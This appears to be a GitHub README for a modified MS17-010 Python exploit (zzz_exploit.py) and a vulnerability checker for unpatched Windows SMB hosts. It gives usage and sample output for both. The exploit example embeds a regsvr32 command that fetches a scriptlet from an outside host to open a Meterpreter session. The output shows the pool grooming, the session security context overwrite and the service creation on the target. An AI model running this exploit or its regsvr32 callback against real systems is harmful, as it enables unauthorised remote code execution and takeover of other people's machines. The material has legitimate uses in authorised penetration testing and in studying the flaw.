 MS17-010: Python
=================

All credit goes to Worawit: 

[Worawit Wang: GitHub](https://github.com/worawit/MS17-010/)

[Worawit Wang: Twitter](https://twitter.com/sleepya_/)

Worawit Wang released a collection of Python exploits for MS17-010. These tools worked far more reliably than the Metasploit modules but didn't have much of a payload besides writing a pwned.txt to the C:/. However, Worawit Wang did add functionality for creating a service. 

Korey McKinley wrote an [article](https://lmgsecurity.com/manually-exploiting-ms17-010/) utilising that function to create a service which used regsvr32 to call back to Meterpreter and create a full Meterpreter connection. I'd never seen that path to exploitation, so I thought I'd modify zzz_exploit.py with Korey's logic and make the script more dynamic and user friendly. 

However, the module Korey used in that blog article was not available in my version of Metasploit. It is now called **web_delivery**. 

There are two pieces, `zzz_checker.py` and `zzz_exploit.py`. Both self-explanatory.

***

Exploit Usage
=============

```
➜  MS17-010 git:(master) ✗ ./zzz_exploit.py --help                                                                                        
usage: zzz_exploit.py [-h] [-u] [-p] -t  [-c] [-P] [--version]

Tested versions:
1	Windows 2016 x64
2	Windows 10 Pro Vuild 10240 x64
3	Windows 2012 R2 x64
4	Windows 8.1 x64
5	Windows 2008 R2 SP1 x64
6	Windows 7 SP1 x64
7	Windows 2008 SP1 x64
8	Windows 2003 R2 SP2 x64
9	Windows XP SP2 x64
10	Windows 8.1 x86
11	Windows 7 SP1 x86
12	Windows 2008 SP1 x86
13	Windows 2003 SP2 x86
14	Windows XP SP3 x86
15	Windows 2000 SP4 x86

optional arguments:
  -h, --help        show this help message and exit
  -u , --user       Username to authenticate with
  -p , --password   Password for specified user
  -t , --target     Target for exploitation
  -c , --command    Command to add to service
  -P , --pipe       Pipe to connect to
  --version         show program's version number and exit
Example: python zzz_exploit -t 192.168.0.1-100 -c 'regsvr32 /s /n /u /i:http://192.168.0.1:9000/1EsrjpXH2pWdgd.sct scrobj.dll'
```

Sample output
=============

```
> # python zzz_exploit.py -t 10.10.11.53                                                                                                                                                     
[08:50:24]  [INFO]:     TARGET: 10.10.11.53
[08:50:24]  [ACTION]:   CONNECTING TO TARGET...
[08:50:24]  [ACTION]:   GETTING TARGET OS...
[08:50:24]  [INFO]:     TARGET OS: Windows Server 2012 R2 Datacenter 9600
[08:50:24]  [ACTION]:   GETTING PIPE...
[08:50:25]  [INFO]:     USING PIPE: spoolss
[08:50:25]  [INFO]:     TARGET ARCHITECTURE: 64 bit
[08:50:25]  [INFO]:     FRAG SIZE: 0x20
[08:50:25]  [INFO]:     GROOM_POOL_SIZE: 0x5030
[08:50:25]  [INFO]:     BRIDE_TRANS_SIZE: 0xf90
[08:50:25]  [ERROR]:    No transaction struct in leak data
[08:50:25]  [ERROR]:    LEAK FAILED! RETRYING...
[08:50:26]  [ERROR]:    No transaction struct in leak data
[08:50:26]  [ERROR]:    LEAK FAILED! RETRYING...
[08:50:26]  [ERROR]:    No transaction struct in leak data
[08:50:26]  [ERROR]:    LEAK FAILED! RETRYING...
[08:50:26]  [INFO]:     CONNECTION: 0xffffe001c6257910
[08:50:26]  [INFO]:     SESSION: 0xffffc000fab68150
[08:50:26]  [INFO]:     FLINK: 0xffffc000fafcd098
[08:50:26]  [INFO]:     InParam: 0xffffc000faf9116c
[08:50:26]  [INFO]:     MID: 0x3903
[08:50:26]  [ERROR]:    unexpected alignment, diff: 0x3b098
[08:50:26]  [ERROR]:    LEAK FAILED! RETRYING...
[08:50:27]  [INFO]:     CONNECTION: 0xffffe001c6257910
[08:50:27]  [INFO]:     SESSION: 0xffffc000fab68150
[08:50:27]  [INFO]:     FLINK: 0xffffc000fafd9098
[08:50:27]  [INFO]:     InParam: 0xffffc000fafd316c
[08:50:27]  [INFO]:     MID: 0x3a03
[08:50:27]  [SUCCESS]:  SUCCESS CONTROLLING GROOM TRANSACTION
[08:50:27]  [ACTION]:   MODIFYING TRANS1 STRUCT FOR READ/WRITE
[08:50:27]  [ACTION]:   CREATING SYSTEM SESSION TO SMB...
[08:50:28]  [ACTION]:   OVERWRITING SESSION SECURITY CONTEXT
[08:50:28]  [INFO]:     Writing command to service:
[08:50:28]  [ACTION]:   OPENING SVCManager ON 10.10.11.53...
[08:50:28]  [ACTION]:   CREATING SERVICE PKfJ...
[08:50:28]  [ACTION]:   STARTING SERVICE PKfJ...
[08:50:29]  [ERROR]:    SCMR SessionError: code: 0x41d - ERROR_SERVICE_REQUEST_TIMEOUT - The service did not respond to the start or control request in a timely fashion.                    
[08:50:29]  [ACTION]:   REMOVING SERVICE PKfJ...
[08:50:29]  [SUCCESS]:  FINISHED!
```

***

Checker Usage
=============

```
usage: checker.py [-h] [-u] [-p] [-t] [-tf] [--version]

MS17-010 Checker script

optional arguments:
  -h, --help            show this help message and exit
  -u , --user           Username to authenticate with
  -p , --password       Password for specified user
  -t , --target         Target (IP, range, CIDR) to check for MS17-010
  -tf , --target-file   Read from file. Can interpret CIDR and IP.
  --version             show program's version number and exit

Example: python checker.py -t 192.168.0.1-100
```

Sample output
=============

```
> # python checker.py -t 10.10.11.53                                                                                                                                                         
[08:37:25]  [INFO]: 	CONNECTED TO 10.10.11.53
[08:37:25]  [INFO]: 	TARGET OS: Windows Server 2012 R2 Datacenter 9600
[08:37:25]  [SUCCESS]: 	10.10.11.53 IS NOT PATCHED!
[08:37:25]  [ACTION]: 	CHECKING NAMED PIPES...
[08:37:25]  [SUCCESS]: 	spoolss: OK (64 bit)
[08:37:26]  [SUCCESS]: 	samr: OK (64 bit)
[08:37:26]  [SUCCESS]: 	netlogon: OK (64 bit)
[08:37:26]  [SUCCESS]: 	lsarpc: OK (64 bit)
[08:37:26]  [ERROR]: 	browser: STATUS_OBJECT_NAME_NOT_FOUND
```
